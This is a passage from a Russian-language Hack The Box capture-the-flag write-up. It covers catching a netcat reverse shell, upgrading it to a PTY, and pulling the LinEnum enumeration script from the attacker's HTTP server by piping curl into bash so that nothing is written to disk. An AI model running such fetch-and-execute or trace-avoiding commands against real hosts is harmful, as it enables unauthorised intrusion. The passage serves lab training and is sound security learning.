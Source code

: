 После отправки запроса можно ловить отклик на netcat.

[![nc-listen.png](/assets/images/pwn-kingdom/october/nc-listen.png)](/assets/images/pwn-kingdom/october/nc-listen.png)
{:.center-image}

Став обладателем грубого шелла, я апгрейдил его до удобного интерактивного PTY-терминала, как [делился](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312) этим когда-то на форуме Hack The Box.

[![nc-upgrade-pty.png](/assets/images/pwn-kingdom/october/nc-upgrade-pty.png)](/assets/images/pwn-kingdom/october/nc-upgrade-pty.png)
{:.center-image}

Таким образом я оказался внутри машины и начал осматриваться вокруг.

[![user-txt.png](/assets/images/pwn-kingdom/october/user-txt.png)](/assets/images/pwn-kingdom/october/user-txt.png)
{:.center-image}

### LinEnum

Одним из наиболее удобных инструментов для сбора информации внутри хоста я считаю [LinEnum](https://github.com/rebootuser/LinEnum). Этот написанный на Bash скрипт покажет всю стратегически важную информацию о системе в простом текстовом формате прямо «здесь и сейчас» — большего нам и не нужно!

Для переброса файлов на машину-жертву удобно пользоваться функционалом простого HTTP-Python-сервера.

Создай временную папку на своем хосте, скопируй в нее скрипт и запусти сервер командой `python -m SimpleHTTPServer 8888` (для Python 2) или `python3 -m http.server 8888` (для Python 3). После этого ты сможешь обратиться к содержимому временной папки с другого хоста в этой сети. Обрати внимание, что все, кто знает нужный IP-адрес и порт, на котором поднят сервер, может получить доступ к чтению файлов внутри корневой директории, поэтому рекомендую создавать именно **отдельную** папку, в которой нет чувствительной информации (а Path Traversal питоновский сервер не подвержен).

Чтобы не оставлять лишних следов на атакуемой машине, скрипт можно выполнить без непосредственного его сохранения на диск — просто выдерни его со своего севера с помощью `curl` и передай на исполнение интерпретатору через пайп.

```
$ curl -s http://10.10.14.15:8888/LinEnum.h | bash -s -- -t
```

С помощью флага `-s` и следующего после него разделителя `--` можно передавать параметры для самого скрипта — в данном случае `-t` [означает](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh#L20) провести более глубокое сканирование.

Некоторые другие быстрые решения для трансфера файлов, обладающие большим функционалом, я рассматривал [здесь](/2018/10/11/simple-http-servers.html).

Из обширного вывода LinEnum первым, что бросается глаза, оказалась секция с исполняемыми файлами, для которых установлен SUID-бит.

[![linenum-sh.png](/assets/images/pwn-kingdom/october/linenum-sh.png)](/assets/images/pwn-kingdom/october/linenum-sh.png)
{:.center-image}
